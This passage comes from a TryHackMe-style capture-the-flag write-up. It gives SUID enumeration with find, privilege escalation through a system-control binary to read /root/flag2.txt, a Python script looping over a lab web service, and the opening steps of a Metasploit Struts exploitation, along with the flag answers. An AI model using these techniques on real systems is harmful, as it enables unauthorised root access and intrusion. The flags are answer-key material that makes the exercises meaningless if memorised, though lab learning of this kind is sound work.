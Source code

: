     Ans: THM{d3f0708bdd9accda7f937d013eaf2cd8} 

3. Find another binary file that has the SUID bit set. Using this file, can you become the root user and read the /root/flag2.txt file?

    ```bash
    #find the files with permission of root and suid
    find / -user root -perm -4000 -exec ls -al {} \; 2>/dev/null | grep bin
    #lists all the files in the bin with suid
    ```

    - check all the files listed

    ```bash
    #among then run system-control
    /usr/bin/system-control
    cat /root/flag2.txt
    ```

    Ans : THM{8c8211826239d849fa8d6df03749c3a2}

## Day 9: Requests

```python
import requests
import json

host="http://10.10.169.100:3000"
path="/"
value = ''

while(1):
        response = requests.get(host+path)
        print(response)
        status = response.status_code
        print(status)
        text = response.text
        print(text)
        txt = json.loads(text)
        if(txt['next']=="end"):
                break
        value = value + txt['value']
        path = "/"+txt['next']

print(value)
```

Ans: sCrIPtKiDd

## Day 10: Metasploit-a-ho-ho

1. Compromise the web server using Metasploit. What is flag1?
    - run the metasploit console
    - use the struts_content module
    - scan for the open ports
